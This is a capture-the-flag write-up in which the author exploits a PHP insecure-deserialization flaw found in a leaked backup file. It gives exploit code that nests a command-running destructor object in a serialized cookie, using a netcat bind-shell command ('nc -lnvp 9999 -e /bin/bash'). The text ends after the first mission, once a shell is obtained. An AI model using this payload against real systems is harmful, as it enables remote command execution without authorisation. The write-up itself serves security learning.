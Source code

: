 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")

and voila we get our shell fisrt missin completed successfully


 
